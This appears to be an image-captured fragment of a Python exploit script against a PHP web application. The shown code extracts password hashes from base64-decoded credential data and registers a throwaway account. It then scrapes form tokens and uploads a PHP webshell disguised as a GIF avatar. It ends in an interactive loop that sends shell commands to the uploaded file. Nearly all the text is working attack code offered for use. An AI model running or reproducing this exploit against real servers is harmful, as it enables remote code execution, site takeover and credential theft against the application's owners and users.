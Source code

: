     else:
        for line in chash:
            if "<?php die('Direct call - access denied'); ?>" not in line:
                credentials = b64decode(line)
                try:
                    sha_hash = re.search('"pass";s:64:"(.*?)"', credentials.decode()).group(1)
                    print (sha_hash)
                except:
                    pass
def register():
    global sess, ip
    userpass = "".join(random.SystemRandom().choice(string.ascii_letters + string.digits ) for _ in range(10))
    postdata = {
        "action" : "register",
        "regusername" : userpass,
        "regnickname" : userpass,
        "regpassword" : userpass,
        "confirm" : userpass,
        "regemail" : f"{userpass}@hack.me"
    }
    register = sess.post(f"{ip}/index.php?register", data = postdata, allow_redirects = False)
    if 302 == register.status_code:
        print (f"[+] Registration successful with username: {userpass} and password: {userpass}")
    else:
        sys.exit()
def send_payload(payload):
    global ip
    token = sess.get(f"{ip}/index.php?mod=main&opt=personal").text
    signature_key = re.search('signature_key" value="(.*?)"', token).group(1)
    signature_dsi = re.search('signature_dsi" value="(.*?)"', token).group(1)
    logged_user = re.search('disabled="disabled" value="(.*?)"', token).group(1)
    print (f"signature_key: {signature_key}")
    print (f"signature_dsi: {signature_dsi}")
    print (f"logged in user: {logged_user}")

    files = {
        "mod" : (None, "main"),
        "opt" : (None, "personal"),
        "__signature_key" : (None, f"{signature_key}"),
        "__signature_dsi" : (None, f"{signature_dsi}"),
        "editpassword" : (None, ""),
        "confirmpassword" : (None, ""),
        "editnickname" : (None, logged_user),
        "avatar_file" : (f"{logged_user}.php", payload),
        "more[site]" : (None, ""),
        "more[about]" : (None, "")
    }
    payload_send = sess.post(f"{ip}/index.php", files = files).text
    print("============================\nDropping to a SHELL\n============================")
    while True:
        print ()
        command = input("command > ")
        postdata = {"cmd" : command}
        output = sess.post(f"{ip}/uploads/avatar_{logged_user}_{logged_user}.php", data=postdata)
        if 404 == output.status_code:
            print ("sorry i can't find your webshell try running the exploit again")
            sys.exit()
        else:
            output = re.sub("GIF8;", "", output.text)
            print (output.strip())
